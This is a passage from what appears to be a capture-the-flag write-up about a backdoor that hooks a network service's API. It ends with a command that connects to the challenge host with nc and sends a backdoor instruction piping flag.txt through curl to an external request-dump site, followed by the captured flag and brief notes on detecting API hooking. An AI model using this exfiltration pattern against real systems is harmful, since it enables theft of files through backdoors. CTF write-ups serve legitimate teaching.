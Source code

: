 ## Now it's Flag Time!
```
nc injector.challenges.adversary.zone 4321
cmd{cat flag.txt | curl -X POST --data-binary @- https://httpdump.io/hwie_}
```
Flag: **CS{fr33_h00k_b4ckd00r}**

## Conclusion
This challenge has been a great learning experience, comprising different aspects of cyber security offense and defense.
The backdoor is triggered through normal network services and their listening ports. There is no extra listen port, no seperate backdoor process running.
Detection of API hooking seems like an important step in finding backdoors like this.
